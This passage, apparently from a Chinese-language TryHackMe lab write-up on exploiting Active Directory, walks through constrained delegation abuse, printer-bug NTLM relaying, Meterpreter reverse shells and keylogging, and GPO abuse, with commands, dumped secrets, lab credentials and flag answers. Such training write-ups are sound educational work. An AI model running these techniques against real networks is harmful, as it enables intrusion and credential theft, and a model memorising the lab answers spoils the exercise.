    m/u : 104da382e2da301f33d649a4c98126e52559bb9f / 8a76b15d59c687c632b7020bc15b24f444d07431

Secret  : NL$KM
cur/hex : 10 bb 99 02 da 94 4a 26 cd ad 07 f3 62 64 53 5c a8 12 be e3 16 1f 8f 99 ae ab 97 37 c4 bc ee df 63 7c 2f 6d 07 c5 d9 5e 29 e7 ce ce 48 52 47 19 8a 03 99 ff 97 ec 7f 49 a1 79 15 d9 a0 04 ac 58
old/hex : 10 bb 99 02 da 94 4a 26 cd ad 07 f3 62 64 53 5c a8 12 be e3 16 1f 8f 99 ae ab 97 37 c4 bc ee df 63 7c 2f 6d 07 c5 d9 5e 29 e7 ce ce 48 52 47 19 8a 03 99 ff 97 ec 7f 49 a1 79 15 d9 a0 04 ac 58

Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: Password1@
```

随后利用 Kekeo 开始生成票据

```shell
kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
Realm        : za.tryhackme.loc (za)
User         : svcIIS (svcIIS)
CName        : svcIIS   [KRB_NT_PRINCIPAL (1)]
SName        : krbtgt/za.tryhackme.loc  [KRB_NT_SRV_INST (2)]
Need PAC     : Yes
Auth mode    : ENCRYPTION KEY 23 (rc4_hmac_nt): 43460d636f269c709b20049cee36ae7a
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 10.200.120.101 (auto)
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

有了生成好的 TGT 之后，开始伪造 TGS 请求

```shell
kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
Ticket  : TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
  [krb-cred]     S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [krb-cred]     E: [00000012] aes256_hmac
  [enc-krb-cred] P: svcIIS @ ZA.TRYHACKME.LOC
  [enc-krb-cred] S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [enc-krb-cred] T: [12/12/2023 10:24:44 AM ; 12/12/2023 8:24:44 PM] {R:12/19/2023 10:24:44 AM}
  [enc-krb-cred] F: [40e10000] name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
  [enc-krb-cred] K: ENCRYPTION KEY 18 (aes256_hmac      ): 12b5685331be5e0611849c91867c2be0d0e86195970defd5e10199b76b45f2bf
  [s4u2self]  t1_trevor.jones
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 10.200.120.101 (auto)
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi'
Service(s):
  [s4u2proxy] http/THMSERVER1.za.tryhackme.loc
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

接下来使用 mimikatz 利用生成的两个 TGS

```shell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # exit
```

接下来检查票据是否导入

```powershell
PS C:\> New-PSSession -ComputerName thmserver1.za.tryhackme.loc

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          thmserver1.z... RemoteMachine   Opened        Microsoft.PowerShell     Available
```

然后利用此票据

```shell
PS C:\> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd ../../
[thmserver1.za.tryhackme.loc]: PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/30/2022  11:07 AM                .NET v2.0
d-----        4/30/2022  11:07 AM                .NET v2.0 Classic
d-----        4/30/2022  11:07 AM                .NET v4.5
d-----        4/30/2022  11:07 AM                .NET v4.5 Classic
d-----        4/25/2022   8:52 PM                Administrator
d-----        4/27/2022   8:32 AM                Administrator.ZA
d-----        4/30/2022  11:07 AM                Classic .NET AppPool
d-r---        3/21/2020   8:25 PM                Public
d-----        6/13/2022   2:43 PM                t1_jake.scott
d-----        6/13/2022   2:32 PM                t1_jay.wilson
d-----        6/13/2022   2:28 PM                t1_steven.blake
d-----        4/30/2022   3:30 PM                t1_trevor.jones
d-----        4/30/2022   4:15 PM                trevor.local
d-----        3/21/2020   8:52 PM                vagrant


[thmserver1.za.tryhackme.loc]: PS C:\Users> cd .\Administrator\Desktop\
[thmserver1.za.tryhackme.loc]: PS C:\Users\Administrator\Desktop> type .\flag2.txt
THM{Constrained.Delegation.Can.Be.Very.Bad}
```

</details>

```plaintext
THM{Constrained.Delegation.Can.Be.Very.Bad}
```

:::

## Exploiting Automated Relays - 利用自动中继

在这个任务中，我们将看看一些自动继电器攻击。认证尝试不断在网络中传递，正如在渗透 AD 房间中所展示的，如果我们幸运的话，我们可以截取其中一些挑战以获取访问权限。但如果我们不想等待呢？如果我们能强迫进行认证呢？

尽管我们已经对 THMSERVER1 拥有了特权访问权限，但我们可能处于无法使用受限委派漏洞的位置。这是另一个可以用来获取主机特权访问权限的绝佳攻击手段。

### Machine 账户

所有的 Windows 主机都有一个机器账户。本质上，这就是与机器关联的用户账户。除非有人篡改了主机的账户，否则这些账户的密码是无法破解的。默认情况下，它们有 120 个字符（UTF16）长，并且每 30 天自动更改一次。

在 AD 中，这些机器账户在不同的服务中被广泛使用。不同的域控制器使用它们的机器账户来同步 AD 的更新和更改。当你代表你正在操作的主机请求证书时，该主机的机器账户会用于认证到 AD 证书服务。

在 AD 中有一个特殊情况，一个机器具有另一台机器的管理员权限。本质上，在 AD 配置中，另一台主机被授予了对某台主机的管理权限。同样，这是预期的功能，比如必须同步的域控制器或 SQL 集群。然而，这些情况为强迫认证提供了一个非常有趣的攻击向量。

我们首先需要确定一个机器账户是否具有对另一台机器的管理访问权限。我们可以使用 Bloodhound 来做这件事，但这意味着我们需要编写一些自定义的 Cypher 查询。在 Bloodhound 的 Analysis 标签中点击 "Create Custom Query"，我们想要编写以下查询：

```plaintext
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```

这个查询会尝试找到一个计算机在另一个计算机上具有 “AdminTo” 关系的情况。你应该会看到类似于这样的输出：

<div style={{textAlign:'center'}}>



</div>

这非常有趣。它显示了 THMSERVER2 机器账户在 THMSERVER1 机器上具有管理权限。

### The Printer Bug - 打印机错误

> “这不是一个漏洞，而是一个功能” — 微软
>
> It's not a bug, it's a feature - Microsoft.

严肃地说，当这个问题被报告时，微软回应称这是一个功能。打印机漏洞是 MS-RPRN 协议（打印系统远程协议）的 “功能”，它允许域用户远程强制目标主机上运行打印池服务的计算机账户对任意 IP 地址进行身份验证。在最近几年中出现了几个类似的漏洞：Spooler、PetitPotam、PrintNightmare。微软声称，唯一的问题是其中一些根本不需要 AD 凭据，但这个问题已经通过安全补丁解决了。

因此，要利用这个漏洞，除了机器账户的管理权限外，我们还需要满足以下四个条件：

1. 有效的 AD 账户凭据。
2. 连接到目标 SMB 服务的网络连接。
3. 目标主机必须运行打印池服务。
4. 主机不能强制使用 SMB 签名。

条件 1 和 2 已经满足。我们需要确保工作的是条件 3 和 4。

### Print Spooler Service - 打印后台处理服务

我们需要确定打印池服务是否正在运行。由于我们无法访问 THMSERVER2，我们需要从网络角度进行查询。在这种情况下，我们可以使用 SSH 会话在 THMWRK1 上进行 WMI 查询来查询服务的当前状态：

```shell title="powershell"
PS C:\> GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc


Location      :
Name          : Microsoft XPS Document Writer
PrinterState  : 0
PrinterStatus : 3
ShareName     :
SystemName    : THMSERVER2

Location      :
Name          : Microsoft Print to PDF
PrinterState  : 0
PrinterStatus : 3
ShareName     :
SystemName    : THMSERVER2
```

这个命令的输出证实了该服务正在运行。如果出现访问被拒绝的错误，或许你可以尝试使用 PowerShell 命令 `Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc` 。然而，微软一直在限制从网络角度查看这些端口。如果两者都给你错误，也许你只需要冒险一试。因此，条件三已经满足。

### SMB Signing - SMB 签名

为了中继强迫的身份验证尝试，SMB 签名不应该被强制。需要注意的是，SMB 签名被允许和 SMB 签名被强制是有区别的。由于一些旧系统不支持 SMB 签名，SMB 的默认配置是允许签名但不强制使用，这意味着只有在支持的情况下才会使用签名。由于我们将托管一个恶意的 SMB 服务器，我们可以确保我们的服务器不支持签名，从而强迫目标不对 SMB 身份验证尝试进行签名。

为了验证 THMSERVER1 和 THMSERVER2 是否没有强制使用 SMB 签名，我们可以在我们的 AttackBox 上使用 Nmap：

```shell title="Terminal"
thm@thm:~# nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
Nmap scan report for distributor.za.tryhackme.loc (172.31.1.201)
Host is up (0.62s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required

Nmap scan report for 172.31.1.202
Host is up (0.38s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required

Nmap done: 2 IP addresses (2 hosts up) scanned in 4.59 seconds
```

我们可以根据输出看到 SMB 签名已启用但未被强制。这意味着我们所有的条件都已满足，我们可以开始攻击了！

### Exploiting Authentication Relays - 利用身份验证中继

:::tip

这种攻击可能不稳定。滥用打印池服务可能会导致其崩溃，并且不一定能收到回调。因此，前面的任务已经为您提供了继续进行的必要权限。但是，理解身份验证中继以及如何强制进行它们对于 AD 的利用至关重要。因此，以下提供了执行此类攻击的步骤。您可以尝试一下，但无法保证会回调。如果没有成功，请继续下一个任务，也许在完成您的房间旅程之后再来探索这个问题。

:::

我们将使用 [SpoolSample](https://github.com/leechristensen/SpoolSample) 来利用身份验证中继。这是一个 C# 的漏洞利用，但已经为您编译完成，并存储在 THMWRK1 的 `C:\Tools\` 目录中。我们将使用 Spoolsample.exe 强制 THMSERVER2 向我们的 AttackBox 进行身份验证，然后使用 [Impacket](https://github.com/fortra/impacket) 的 [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) 来中继身份验证尝试到 THMSERVER1。请注意，如果您正在使用自己的虚拟机，您需要确保拥有支持 SMBv2 的最新版本的 Impacket。

第一步是设置 NTLM 中继。在我们的 AttackBox 上，我们可以使用以下命令：

```shell title="Terminal"
thm@thm:~# python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
```

如果我们指定的是 THMSERVER1 的主机名而不是 IP，主机可能会要求我们使用 Kerberos 身份验证而不是 NTLM。因此，我们应该指定 IP。通过侦听中继，我们现在可以强制 THMSERVER2 对我们进行身份验证。在 THMWRK1 的 SSH 终端上执行以下操作：

```shell title="Terminal"
C:\Tools\>SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
```

你的攻击者 IP 应该与你的 tunX 接口对应于该网络。如果一切顺利，你应该已经收到了一个身份验证尝试并且成功中继到了 THMSERVER1。

```shell title="Terminal"
thm$ python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug
[*] Servers started, waiting for connections
[*] SMBD-Thread-5: Received connection from 172.31.1.202, attacking target smb://172.31.1.201
[*] Authenticating against smb://172.31.1.201 as ZA/THMSERVER2$ SUCCEED
[+] No more targets
[*] SMBD-Thread-7: Connection from 172.31.1.202 controlled, but there are no more targets left!
[+] No more targets
[*] SMBD-Thread-8: Connection from 172.31.1.202 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[+] ExecuteRemote command: %COMSPEC% /Q /c echo whoami /all ^> %SYSTEMROOT%\Temp\__output > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[*] Executed specified command on host: 172.31.1.201

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384
[...]
```

这个输出类似于使用了 `-c 'whoami /all'` 命令的情况。然而，通过不指定命令，你现在已经执行了一个哈希转储。这些凭据现在可以用来在主机上获取一个 Shell！

:::info Answer the questions below

默认情况下，Windows 计算机帐户的密码多久轮换一次（以天为单位）？

```plaintext
30
```

如果我们想要中继 SMB 身份验证尝试，不应该强制执行哪些操作？

```plaintext
SMB Signing
```

THMSERVER1 上 Administrator.ZA 用户的桌面目录中存储的标志的值是多少 (flag3.txt)？

```plaintext
THM{Printing.Some.Shellz}
```

:::

## Exploiting AD Users - 利用 AD 用户

到目前为止，我们在利用方面已经取得了相当大的进展。我们对工作站和服务器拥有完全的管理员访问权限。基本上，我们可以对几乎任何一台一级和二级系统进行后期利用。但我们还想更进一步。接下来的任务也可以看作是后期利用，但在我们仍在执行利用以达到执行目标位置时，通常是一个极好的选择。现在是时候针对 AD 用户展开攻击了。

### 用户和用户行为

> 未来的工厂只会有两名员工：一个人和一只狗。人的存在是为了喂狗，而狗则是为了在人试图触碰任何东西时咬人。- 沃伦 · 本尼斯
>
> The factory of the future will only have two employees. A human and a dog. The human will be there to feed the dog. The dog will be there to bite the human if they try to touch something. - Warren Bennis

用户往往是安全链条中最薄弱的环节。想想弱密码和不良习惯，比如授予过于宽松的权限。忽视这个攻击面是愚昧和无效的。虽然建立合适的 AD 用户枚举和攻击方法是有益的，但在这个任务中，我们将专注于两个要素：

- 凭证管理 - 用户如何存储他们的凭证。在 AD 中，这非常重要，因为用户可能有多套凭证，记住它们可能很麻烦。
- 键盘记录 - 在利用过程中，我们经常需要了解普通用户如何与系统交互。与屏幕截图一起，键盘记录可以是从攻击者角度获取这种理解的有用工具。

### 寻找凭证

现在我们已经入侵了 THMSERVER1，或许应该四处看看是否有任何有用的信息。查看用户目录，看看是否有一些有用的内容。

你的枚举工作应该会导致一个. kdbx 文件。快速搜索一下可以确认我们的怀疑，这个文件确实非常有价值！我们可以使用 Meterpreter 的下载命令来恢复这个文件。

这个文件似乎是一个凭证数据库。然而，问题在于数据库被密码加密了。我们可以尝试破解密码，但通常使用凭证数据库的人会确保初始密码是安全的。我们也许更有成功的机会是看看用户是如何与这个数据库进行交互的。

### SYSTEM 有时特权太高

Meterpreter 具有内置的键盘记录器。这对提取用户的击键信息很有用。但是，我们不能随便启动这个键盘记录器然后期待最好的结果，因为我们的 Shell 当前是在 SYSTEM 上下文中运行的。SYSTEM 不会输入任何按键，所以这对我们没有帮助。为了捕获正确用户的凭证，我们需要确保我们的 Shell 是以该用户的上下文运行的。

幸运的是，Meterpreter 提供了迁移功能，因为我们是以 SYSTEM 身份运行的，我们应该能够迁移到任何进程。你在 THMSERVER1 上具有远程代码执行权限，利用这个来获取一个 Meterpreter Shell。如果你需要关于如何使用 Meterpreter 和 Metasploit 的复习，这里有一个关于它使用的模块。不过，为了快速了解，你可以使用以下命令生成一个 PowerShell Meterpreter 载荷：

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
```

接下来，你也可以使用以下命令在 msfconsole 中创建相关的监听器：

```shell
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT'listening port'; exploit"
```

你可以使用 Python 的 Web 服务器来托管你的 Meterpreter Shell，然后使用类似以下的方式进行复制：

```shell
certutil.exe -urlcache -split -f http:///shell.ps1
```

一旦你拥有了 Meterpreter Shell，你可以继续。第一步是查看这台机器上用户是否有运行的进程：

```shell title="Terminal"
meterpreter\>ps | grep "explorer"
Filtering on 'explorer'

Process List
============

 PID   PPID  Name          Arch  Session  User                     Path
 ---   ----  ----          ----  -------  ----                     ----
 3612  3592  explorer.exe  x64   1        THMSERVER1\trevor.local  C:\Windows\explorer.exe
```

如果你在 trevor.local 用户下没有看到 explorer.exe 进程，你可以通过以下步骤自行启动这个进程：

- 使用以下命令重置 trevor.local 用户的密码：`net user trevor.local <password>`
- 在 PowerShell 中运行以下命令：`C:\auto-login.ps1 trevor.local <password> THMSERVER1`
- 使用 `shutdown -r` 重启服务器
- 服务器重新上线后，你应该能看到 explorer 进程。

看起来我们很幸运！用户在 THMSERVER1 上有一个活动会话。让我们迁移到这个用户的某个进程。通常，最安全的选择是像 explorer.exe 这样的进程：

```shell title="Terminal"
meterpreter\>migrate 3612
[*] Migrating from 4408 to 3612...
[*] Migration completed successfully.
```

我们可以使用 getuid 命令确认我们现在正在以目标用户的上下文中运行：

```shell title="Terminal"
meterpreter\>getuid
Server username: THMSERVER1\trevor.local
```

现在我们需要耐心等待。如果幸运的话，我们将捕获一些凭据！等待几分钟，然后运行以下命令来转储捕获的按键记录：

```shell title="Terminal"
meterpreter\>keyscan_dump
Dumping captured keystrokes...
keep<CR>
<Shift>Passwordpasswordpassword<CR>
```

这是针对 AD 用户的一个简单示例。还有许多其他工作可以做。在你的 AD 利用方法论中包含用户定位非常重要。为了回答这个任务的问题，你将需要使用 Keepass。它已经在 AttackBox 上为你安装好了，所以你只需搜索并运行该应用程序。如果你使用的是自己的虚拟机，在大多数 Linux 发行版上，sudo apt install keepassx 应该可以工作。或者你也可以从这里下载。另外，请确保使用 meterpreter 的下载命令将 Keepass 数据库下载到你的主机上。如果你正在使用 Kali，请确保 kali 用户拥有数据库文件，然后再打开它，否则它可能会锁定数据库并给出错误的结果。

虽然持久性只会在下一个环节中讨论，但现在可能是创建 THMSERVER1 上的一个本地账户并授予管理员权限的好时机，这样你就有了一个良好的立足点。由于这对于接下来的任务并不是真正需要的，如果你想这样做，你需要自己进行一些研究。

:::info Answer the questions below

使用什么应用程序打开 kdbx 凭证数据库？

```plaintext
Keepass
```

我们使用什么 meterpreter 命令从系统上下文移动到用户上下文？

```plaintext
migrate
```

凭证数据库的密码是什么？

```plaintext
Imreallysurenoonewillguessmypassword
```

凭证数据库中存储的标志的值是多少？

<details>

<summary> 具体操作步骤 </summary>

挺重要的一点，就是加密数据库位于：

```plaintext
C:\Users\trevor.local\Documents\PasswordDatabase.kdbx
```

可以直接使用 msfconsole 下载下来，然后在本地进行解密

```shell
(Meterpreter 1)(C:\Users\trevor.local\Documents) > download PasswordDatabase.kdbx
[*] Downloading: PasswordDatabase.kdbx -> /home/randark/PasswordDatabase.kdbx
[*] Downloaded 2.14 KiB of 2.14 KiB (100.0%): PasswordDatabase.kdbx -> /home/randark/PasswordDatabase.kdbx
[*] Completed  : PasswordDatabase.kdbx -> /home/randark/PasswordDatabase.kdbx
```

<div style={{textAlign:'center'}}>



</div>

</details>

```plaintext
THM{AD.Users.Can.Give.Up.Good.Secrets}
```

:::

## Exploiting GPOs - 利用 GPOs

抓取用户的按键记录使我们能够解密他们的凭证数据库，为我们提供了可以用于进一步进行 AD 利用的凭证，特别是 svcServMan 账户。我们需要进行一些枚举来弄清楚这些凭证将对我们有什么用。幸运的是，我们已经有了可以使用的 Sharphound 数据。使用 Bloodhound 中的搜索功能，让我们查看已发现账户的权限：

<div style={{textAlign:'center'}}>


</div>

特别突出的是这个账户拥有一个权限，即对一个组策略对象（GPO）的所有权。此外，当我们进行一些调查时，似乎这个 GPO 被应用到了我们的 THMSERVER2 机器上：

<div style={{textAlign:'center'}}>



</div>

这可能为我们提供了进一步进行 AD 利用的理想机会！

### 组策略对象

记得我们在枚举 AD 时讨论过 SYSVOL 目录吗？这个目录是存储 AD GPO（组策略对象），以便复制到加入域的计算机上的地方。GPO 是一组策略设置。每个 GPO 都有一个唯一的名称，称为 GUID。这就是为什么如果你试图读取 SYSVOL 目录的内容，用所有这些随机名称看起来毫无意义。

每台 Windows 计算机都有本地策略配置。其中包含了一些值得注意的配置，比如：

- 服务的应用配置，如防火墙、防病毒软件和 Applocker。
- 本地组成员，比如管理员或远程桌面用户组。
- 启动配置，如应该执行的脚本。
- 安全和协议设置，如 SMBv1 支持。

这些只是一些例子。可以设置的配置选项有很多。

### 组策略管理

如果你只有一台 Windows 计算机，直接在主机上更改本地策略配置很容易。然而，在大型组织中，你需要一种机制从中央位置部署配置。这就是群组策略管理（GPM）发挥作用的地方。与在每台机器上本地定义策略不同，GPM 允许我们直接在 AD 结构中定义策略。基本上，我们可以为 AD 对象（比如特定 OU 或组）定义 GPO。

加入域的计算机会定期从 SYSVOL 拉取所有策略，并应用相关的策略。默认情况下，策略每 15 分钟通过 gpupdate 应用程序进行复制。然而，我们也可以从命令提示符手动执行这个应用程序，立即应用策略。

### 利用 GPOs

虽然有几种方法可以利用 GPOs，但我们将坚持使用一个简单的解决方案：将我们控制的 AD 账户添加到本地 Administrators 和 Remote Desktop Users 组。这将允许我们在 THMSERVER2 上拥有管理员特权并能够进行远程桌面连接。我们也可以使用暴露的 SSH 端口，但并不是很多组织都升级到提供 SSH 访问。因此，RDP 访问或传统的横向移动技术如 SMBExec 更安全。

为了修改 GPO，我们需要作为拥有相关权限的 AD 用户访问群组策略管理。我们可以作为该用户远程桌面连接到 THMSERVER1，但这可能会将用户踢出他们的活动会话，引起怀疑。相反，我们将使用我们普通的或 Tier 2 管理员账户远程桌面连接到 THMWRK1，使用 runas 命令将 AD 用户的凭据注入内存，并打开 MMC 来修改 GPO。关于 runas 命令的回顾，请参考枚举 AD 房间；然而，以下提供的命令也应该从管理员命令提示符窗口执行：

```shell title="Command Prompt"
C:\>runas /netonly /user:za.tryhackme.loc\<AD Username> cmd.exe
```

一旦提示，请提供与该账户关联的密码。要验证您提供了正确的凭据，您可以运行 `dir \\za.tryhackme.loc\sysvol` 。在新打开的命令提示符窗口中，我们可以启动 Microsoft Management Console（MMC）：

```shell title="Command Prompt"
C:\>mmc
```

现在我们想要添加 Group Policy Management 控制台插件：

1. 点击 文件 -> 添加 / 移除控制台
2. 选择 Group Policy Management 控制台插件并点击添加
3. 点击确定

现在你应该能够看到 za.tryhackme.com 域的 GPO（组策略对象）了。

<div style={{textAlign:'center'}}>


</div>

现在我们可以导航至我们的用户有权限修改的 GPO（服务器 > 管理服务器 > 管理服务器推送）。

<div style={{textAlign:'center'}}>


</div>

我们可以右键点击该 GPO，然后选择编辑。这会打开新的 Group Policy Management Editor（组策略管理编辑器）窗口。

<div style={{textAlign:'center'}}>



</div>

为了将我们的账户添加到本地组，我们需要执行以下步骤：

1. 展开计算机配置
2. 展开策略
3. 展开 Windows 设置
4. 展开安全设置
5. 右键点击受限组，并选择添加组（如果 IT 支持组已经存在，这意味着有人已经执行了利用。你可以删除它以便重新创建，或者仅检查它以查看配置情况。）
6. 点击浏览，输入 IT Support 并点击检查名称
7. 点击两次确定

<div style={{textAlign:'center'}}>


</div>

第一个筛选器未被使用。对于第二个筛选器，我们想要添加管理员组和远程桌面用户组。最终，它应该类似于这样：

<div style={{textAlign:'center'}}>



</div>

配置完成后，我们可以点击应用并确定。现在，我们所需做的就是等待最多 15 分钟让 GPO 生效。之后，我们最初添加到 IT 支持组的账户将在 THMSERVER2 上拥有管理员和远程桌面权限！

:::info Answer the questions below

什么对象允许用户配置 Windows 策略？

```plaintext
Group Policy Objects
```

哪些 AD 功能允许我们为整个 AD 结构配置 GPO？

```plaintext
Group Policy Management
```

我们被入侵的 AD 账户拥有的 GPO 名称是什么？

```plaintext
Management Server Pushes
```

管理员桌面目录 (flag4.txt) 中 THMSERVER2 上存储的标志的值是多少？

<details>

<summary> 具体操作步骤 </summary>

首先，这里要使用到上文在密码数据库中发现的凭据

<div style={{textAlign:'center'}}>


</div>

```plaintext
Username: svcServMan
Password: Sup3rStr0ngPass!@
```

首先，先以普通账号登录到 THMWRK1

```plaintext
Your credentials have been generated: Username: william.white Password: ntIMDXayg7U
```

然后 runas 切换到 `t2_melanie.davies` 账户，然后启动 MMC

<div style={{textAlign:'center'}}>

